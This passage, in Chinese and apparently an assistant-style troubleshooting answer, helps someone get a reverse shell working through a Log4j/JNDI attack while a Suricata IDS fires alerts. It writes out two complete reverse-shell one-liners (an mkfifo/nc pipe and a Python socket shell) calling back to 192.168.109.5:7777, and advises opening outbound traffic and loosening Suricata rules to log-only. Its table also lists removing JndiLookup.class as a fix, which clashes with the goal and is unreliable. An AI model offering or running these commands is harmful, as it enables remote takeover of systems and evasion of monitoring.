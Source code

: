 **➡️ 解决方法：**

1. 使用更隐蔽的命令，如基于 `mkfifo` 或 `exec` 的反弹 shell：

```bash
mkfifo /tmp/s; nc 192.168.109.5 7777 0</tmp/s | /bin/bash >/tmp/s 2>&1; rm /tmp/s
```

1. 或者使用 Python 来生成反弹 shell：

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.109.5",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

------

## ✅ **可能的根本原因 + 对应解决方法**

| 问题原因                | 表现                               | 解决方法                     |
| ----------------------- | ---------------------------------- | ---------------------------- |
| ✅ JNDI 被禁用           | 反弹 shell 失败，Suricata 仍然报警 | 删除 `JndiLookup.class`      |
| ✅ 网络拦截              | 没有反弹 shell 连接                | 允许出站流量到目标 IP/端口   |
| ✅ Bash 环境受限         | 反弹 shell 命令失败                | 尝试 `mkfifo` 或 Python 执行 |
| ✅ Suricata 特征检测误报 | 触发报警但未执行                   | 调整规则或设置成“日志”       |

------

## 🚀 **下一步行动计划**

1. 🛠️ 删除 `JndiLookup.class`
2. 🛠️ 允许出站 TCP 连接到监听端口
3. 🛠️ 切换反弹 shell 方式（`mkfifo` 或 Python）
4. 🛠️ 优化 Suricata 规则

------

⚡ 再调整下，应该就能搞定反弹 shell 了！直接冲🔥🔥🔥！